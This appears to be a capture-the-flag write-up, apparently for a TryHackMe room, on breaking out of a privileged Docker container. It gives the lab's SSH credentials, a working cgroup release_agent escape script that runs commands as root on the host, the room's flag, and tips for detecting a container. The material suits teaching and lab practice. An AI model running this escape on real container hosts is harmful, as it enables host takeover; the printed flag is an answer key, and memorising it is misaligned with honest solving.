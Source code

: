 Containers running in "user" mode interact with the operating system through the Docker engine. Privileged containers, however, do not do this...instead, they bypass the Docker engine and have direct communication with the operating system.Well, if a container is running with privileged access to the operating system, we can effectively execute commands as root - perfect! We can use a system package such as "libcap2-bin"'s capsh to list the capabilities our container has: capsh --print . I've highlighted a few interesting privileges that we have been given, but greatly encourage you to research into anymore that may be exploited! Privileges like these indicate that our container is running in privileged mode. We are only leveraging the "sys_admin" capability

1. Connecting to the container: SSH credntials `root`:`danny` Port 2244
2. capsh --print | grep sys_admin

## Reference : https://linux.die.net/man/7/capabilities

# Exploit

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs
```

# Flag.txt

```
thm{you_escaped_the_chains}
```

# Determining we are in a container

1. Listing running processes:

Containers, due to their isolated nature, will often have very little processes running in comparison to something such as a virtual machine. We can simply use ps aux to print the running processes. A virtual machine has a tonne more processes running in comparison.

2.  Looking for .dockerenv

Containers allow environment variables to be provided from the host operating system by the use of a ".dockerenv" file. This file is located in the "/" directory, and would exist on a container - even if no environment variables were provided: cd / && ls -lah

3. Those pesky cgroups

Note how we utilised "cgroups" in Task 10. Cgroups are used by containerisation software such as LXC or Docker. Let's look for them with by navigating to "/proc/1" and then catting  the "cgroups" file...It is worth mentioning that the "cgroups" file contains paths including the word "docker"
